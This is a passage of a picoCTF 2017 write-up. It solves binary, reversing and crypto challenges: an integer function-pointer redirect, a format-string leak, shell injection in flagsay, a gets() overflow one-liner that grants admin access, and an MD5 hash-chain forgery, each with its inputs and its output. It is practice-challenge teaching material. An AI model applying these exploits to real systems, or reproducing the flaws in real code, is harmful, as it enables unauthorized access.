cd875b6ffb5cdd3319532d52ceca71aa
#+END_QUOTE

*** Guess The Number

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Guess-The-Number][Guess-the-Number]] 

#+BEGIN_QUOTE
Just a simple number-guessing game. How hard could it be? [[file:./guess_num][Binary]] [[file:./guess_num.c][Source.]] Connect on shell2017.picoctf.com:20545.
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
What is the program doing with your input number?
strtol checks for overflow, but it does allow negative numbers...
#+END_QUOTE

Solution :

Lets look at the souce code 
#+BEGIN_SRC C
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
#+END_SRC

From the souce we can see that the address in val is called at last , so we need to get the adress of the funtion win into ~val~ . 
Interger from the input is stored into the variable with the funtion ~strtol() : convert a string to a long integer~ , Then 4 byte is is shifted to right 


#+BEGIN_SRC shell
objdump -d guess_num
#+END_SRC

gives the address of  win as ~0x0804852b~ which is 134513963 , when giving this to output the address called is 0x804852, 
This is because of the shift operator
#+BEGIN_EXAMPLE
>>> 0x0804852b
134513963
>>> bin(134513963)
'0b1000000001001000010100101011'
>>> hex(0b100000000100100001010010)
'0x804852'
#+END_EXAMPLE
So we need to input larger number , lets give ~0x0804852bb~ which is ~2152223419~ , but the value stored in the memory was ~0x7ffffff~ , 
this happend because of the overflow  0x0804852bb > 2 ** 31 - 1 .

I spend some time here without seeing the hint saying about negative numbers . How negative numbers are stored in computer , One of the 
fundemental idea complement notaion . So now we need to find a negarive number . Two's complement of ~0x0804852bb~ is ~-2142743877~ . 


Which gives the Flag !
#+BEGIN_EXAMPLE
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743877
You entered -2142743877. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ cat flag.txt
181db5615729e295ea7a5d5773c3829b
#+END_EXAMPLE

Footnote :

1. http://www.exploringbinary.com/twos-complement-converter/

*** Ive Got A Secret
Link : [[https://2017game.picoctf.com/game/level-2/challenge/Ive-Got-A-Secret][Ive-Got-A-Secret]] 

#+BEGIN_QUOTE
Hopefully you can find the right format for my [[file:./secret][secret!]] [[file:./secret.c][Source.]] Connect on shell2017.picoctf.com:42684.
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
This is a beginning format string attack.
#+END_QUOTE

Solution : 

The souce contains a format string vulnarability @
#+BEGIN_SRC c
printf("Give me something to say!\n");
fflush(stdout);
fgets(buffer, BUF_LEN, stdin);
printf(buffer);  /*<-- Here*/
#+END_SRC

Executing gives 
#+BEGIN_EXAMPLE
Give me something to say!
HI
HI
Now tell my secret in hex! Secret: d
As my friend says,"You get nothing! You lose! Good day, Sir!"
#+END_EXAMPLE

Lets look at the source 
#+BEGIN_SRC C
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

#define BUF_LEN 64
char buffer[BUF_LEN];

int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    if(read(fd, &secret, sizeof(int)) != sizeof(int)){
        puts("Read error. Contact admin!\n");
        return -1;
    }
    close(fd);
    printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);

    int not_secret;
    printf("Now tell my secret in hex! Secret: ");
    fflush(stdout);
    scanf("%x", &not_secret);
    if(secret == not_secret){
        puts("Wow, you got it!");
        system("cat ./flag.txt");   
    }else{
        puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    }

    return 0;
}

#+END_SRC

The program load a nunber from /dev/random and store it in variable secret , We have to use the format string to access variable and read its 
content

This is the place were the check occures
#+BEGIN_EXAMPLE
   0x080486ed <+258>:	add    esp,0x10
   0x080486f0 <+261>:	mov    edx,DWORD PTR [ebp-0x10]
   0x080486f3 <+264>:	mov    eax,DWORD PTR [ebp-0x14]
   0x080486f6 <+267>:	cmp    edx,eax
#+END_EXAMPLE

Breaking here and analysing the execution
#+BEGIN_EXAMPLE conf
gdb-peda$ break *0x080486f6
Breakpoint 1 at 0x80486f6
gdb-peda$ r
Starting program: /home/nemesis/Downloads/secret 
Give me something to say!
%x:%x:%x:%x:%x:%x 
40:f7faa5a0:8048792:1:ffffd0d4:756e6da
Now tell my secret in hex! Secret: 0x000111

[----------------------------------registers-----------------------------------]
EAX: 0x111 
EBX: 0x0 
ECX: 0x1 
EDX: 0x756e6da 
ESI: 0x1 
EDI: 0xf7faa000 --> 0x1b2db0 
EBP: 0xffffd028 --> 0x0 
ESP: 0xffffd010 --> 0x1 
EIP: 0x80486f6 (<main+267>:	cmp    edx,eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80486ed <main+258>:	add    esp,0x10
   0x80486f0 <main+261>:	mov    edx,DWORD PTR [ebp-0x10]
   0x80486f3 <main+264>:	mov    eax,DWORD PTR [ebp-0x14]
=> 0x80486f6 <main+267>:	cmp    edx,eax
   0x80486f8 <main+269>:	jne    0x804871c <main+305>
   0x80486fa <main+271>:	sub    esp,0xc
   0x80486fd <main+274>:	push   0x804886b
   0x8048702 <main+279>:	call   0x8048480 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffd010 --> 0x1 
0004| 0xffffd014 --> 0x111 
0008| 0xffffd018 --> 0x756e6da 
0012| 0xffffd01c --> 0x3 
0016| 0xffffd020 --> 0xf7faa3dc --> 0xf7fab1e0 --> 0x0 
0020| 0xffffd024 --> 0xffffd040 --> 0x1 
0024| 0xffffd028 --> 0x0 
0028| 0xffffd02c --> 0xf7e0f276 (<__libc_start_main+246>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080486f6 in main ()
gdb-peda$ 
#+END_EXAMPLE

EDX Register has the random hex which is shown by the 6 th %x , now we exploit !

#+BEGIN_EXAMPLE
Give me something to say!
%x:%x:%x:%x:%x:%x
40:f7fc7c20:8048792:1:ffffdd34:2e9a2fb1
Now tell my secret in hex! Secret: 0x2e9a2fb1
65aaf5d76d7fa708642cf1ab573ebf58
Wow, you got it!
#+END_EXAMPLE

*** Flagsay 1
Link : [[https://2017game.picoctf.com/game/level-2/challenge/Flagsay-1][Flagsay-1]] 

#+BEGIN_QUOTE
I heard you like flags, so now you can make your own! Exhilarating! Use [[file:./flagsay-1][flagsay-1!]] [[file:./flagsay-1.c][Source]]. Connect on shell2017.picoctf.com:30556.
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
System will run exactly what the program gives it
#+END_QUOTE

Solution : 

running the binary file 

#+BEGIN_EXAMPLE
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/     
            //AAAAAA                             /      
           //                                   /       
          //                                   /        
         //                                   /         
        //                                   /          
       //___________________________________/           
      //                                                
     //                                                 
    //                                                  
   //                                                   
  //                                                    
 //                                                     


#+END_EXAMPLE

While giving random input i realized that giving " gives an error

#+BEGIN_EXAMPLE

"
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             // /
sh: 4: //: Permission denied
sh: 5: //: Permission denied
sh: 6: //: Permission denied
sh: 7: //: Permission denied
sh: 8: //: Permission denied
sh: 9: //___________________________________/: not found
sh: 10: //: Permission denied
sh: 11: //: Permission denied
sh: 12: //: Permission denied
sh: 13: //: Permission denied
sh: 14: //: Permission denied
sh: 15: //: Permission denied
sh: 17: Syntax error: Unterminated quoted string

#+END_EXAMPLE

From the error we can identify that all the lines after is beeing executed and we can give any input , giving "cat flag.txt , tells
us the flag

#+BEGIN_QUOTE

#+END_QUOTE

*** VR Gear Console

Link : [[https://2017game.picoctf.com/game/level-2/challenge/VR-Gear-Console][VR-Gear-Console]]
#+BEGIN_QUOTE
Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: 
/problems/e9cab2bb993540454b19d3d56769d9e6
#+END_QUOTE

Hint: 
#+BEGIN_QUOTE
What happens if you read in more characters than the length of the username buffer?
You should look at an ascii table to see what character you need to choose.
Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
"cat file - | vrgearconsole " will keep the pipe open for commands.
#+END_QUOTE

Solution :

Source code 

#+BEGIN_SRC C
#include <stdlib.h>
#include <stdio.h>

int login() {
    int accessLevel = 0xff;
    char username[16];
    char password[32];
    printf("Username (max 15 characters): ");
    gets(username);
    printf("Password (max 31 characters): ");
    gets(password);

    if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 2;
    } else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 0;
    } else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
        accessLevel = 0x80;
    }

    return accessLevel;
}

int main(int argc, char **argv) {
    setbuf(stdout, NULL);
    printf(
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|  Welcome to the VR gear admin console  |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|      Your account is not recognized    |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "\n\n\n\n"
        "Please login to continue...\n\n\n"
    );
    int access = login();

    printf("Your access level is: 0x%08x\n", access);

    if (access >= 0xff || access <= 0) {
        printf("Login unsuccessful.\n");
        exit(10);
    } else if (access < 0x30) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else {
        printf("Login successful.\n");
        printf("You do not have permission to access this resource.\n");
        exit(1);
    }
}

#+END_SRC

This is a Simple buffer overflow , gets funtion is used to read the string and the acess variable is above the stack and we can overwrite it.
Overflow occures due to the fact that ~gets()~ funtion does not specify a boundary of the input and reads all the input the user have given,
and if input is larger that the variable size it keeps on writing data after the variable on the stack , so if there are other variable above
we can overwrite it's value.

Exploit Code
#+BEGIN_EXAMPLE
(python -c "print 'A'*16 + '\x20\npassword\n' "; cat - ) | ./vrgearconsole 
#+END_EXAMPLE
#+BEGIN_EXAMPLE

+----------------------------------------+
|                                        |
|                                        |
|                                        |
|                                        |
|  Welcome to the VR gear admin console  |
|                                        |
|                                        |
|                                        |
|                                        |
+----------------------------------------+
|                                        |
|      Your account is not recognized    |
|                                        |
+----------------------------------------+




Please login to continue...


Username (max 15 characters): Password (max 31 characters): Your access level is: 0x00000020
Admin access granted!
The flag is in "flag.txt".
cat flag.txt
da1e62f3da550878ed92d3d55d61fe7d

#+END_EXAMPLE

* Level 3
** Reversing 
*** Coffee
Link : [[https://2017game.picoctf.com/game/level-3/challenge/Coffee][Coffee]]

#+BEGIN_QUOTE
You found a suspicious USB drive in a jar of pickles. It contains this [[file:./freeThePickles.class][file]]
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
Is there a way to get the source of the program?
#+END_QUOTE

Solution :

This problem gives a java class file , by using a java decompiler we can get the source code
[[http://www.javadecompilers.com/][Java decompiler online]]

#+BEGIN_SRC java
import java.util.Base64.Decoder;

public class problem {
  public problem() {}
  
  public static String get_flag() { String str1 = "Hint: Don't worry about the schematics";
    String str2 = "eux_Z]\\ayiqlog`s^hvnmwr[cpftbkjd";
    String str3 = "Zf91XhR7fa=ZVH2H=QlbvdHJx5omN2xc";
    byte[] arrayOfByte1 = str2.getBytes();
    byte[] arrayOfByte2 = str3.getBytes();
    byte[] arrayOfByte3 = new byte[arrayOfByte2.length];
    for (int i = 0; i < arrayOfByte2.length; i++)
    {
      arrayOfByte3[i] = arrayOfByte2[(arrayOfByte1[i] - 90)];
    }
    System.out.println(java.util.Arrays.toString(java.util.Base64.getDecoder().decode(arrayOfByte3)));
    return new String(java.util.Base64.getDecoder().decode(arrayOfByte3));
  }
  
  public static void main(String[] paramArrayOfString) {
    System.out.println("Nothing to see here");
  }
}
#+END_SRC

Changed the source code to call get_flag funtion 

#+BEGIN_SRC java
    public static void main(String[] paramArrayOfString) {
	System.out.println("Nothing to see here");
	problem.get_flag();
    }
#+END_SRC

Just Running this java code gives the flag
#+BEGIN_EXAMPLE
flag_{pretty_cool_huh}
#+END_EXAMPLE

** Cryptography
*** HashChain

Link: [[https://2017game.picoctf.com/game/level-3/challenge/HashChain][HashChain]] 

#+BEGIN_QUOTE
We found a service hiding a flag! It seems to be using some kind of MD5 Hash Chain authentication to identify who is allowed to see the 
flag. Maybe there is a flaw you can exploit? hcexample.py has some example code on how to calculate iterations of the MD5 hash chain. 
Connect to it at shell2017.picoctf.com:2412!
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
Connect from the shell with nc. Read up on how Hash Chains work and try to identify what could make this cryptosystem weak.
#+END_QUOTE

Solution :

The given python script

#+BEGIN_SRC python :results output org drawer
import md5 #Must be run in python 2.7.x

#code used to calculate successive hashes in a hashchain. 
seed = "seedhash"

#this will find the 5th hash in the hashchain. This would be the correct response if prompted with the 6th hash in the hashchain
hashc = seed
for _ in xrange(5):
  hashc = md5.new(hashc).hexdigest()
 
print hashc
#+END_SRC

running the remote program
#+BEGIN_EXAMPLE

,*******************************************
,***            FlagKeeper 1.1           ***
,*  now with HASHCHAIN AUTHENTICATION! XD  *
,*******************************************

Would you like to register(r) or get flag(f)?

r/f?

r
Hello new user! Your ID is now 4893 and your assigned hashchain seed is 68d3743587f71fbaa5062152985aff40
Please validate your new ID by sending the hash before this one in your hashchain (it will hash to the one I give you):
55f7eb629ebe76812d5a2c565067e311

#+END_EXAMPLE

it is asking to find the hash before the given hash in the hashchain , 

#+BEGIN_SRC python :results output org drawer :tangle /tmp/test.py

import md5 

seed = ""
last_hash = ""

hashc = seed
while True:
  hashc = md5.new(hashc).hexdigest()
  print hashc
  if hashc == last_hash:
    break

#+END_SRC

This script gives the required hash , Other thing is that the seed id the md5 hash of the user id 

let's give f as input 
#+BEGIN_EXAMPLE
,,*******************************************
,,***            FlagKeeper 1.1           ***
,,*  now with HASHCHAIN AUTHENTICATION! XD  *
,,*******************************************

Would you like to register(r) or get flag(f)?

r/f?

f
This flag only for user 8111
Please authenticate as user 8111
1ac73c7e8ab28db1e48377f985bf4dab
Next token?

#+END_EXAMPLE

we need to give the previous hash in the user's hash chain , and the seed is the md5 of the user id

#+BEGIN_EXAMPLE
This flag only for user 8111
Please authenticate as user 8111
1ac73c7e8ab28db1e48377f985bf4dab
Next token?
1beeffb8e649bc7efe80c706e7f562e3
Hello user 8111! Here's the flag: 232360dd1aa3dd2f25c6c4ffe1893a06


#+END_EXAMPLE


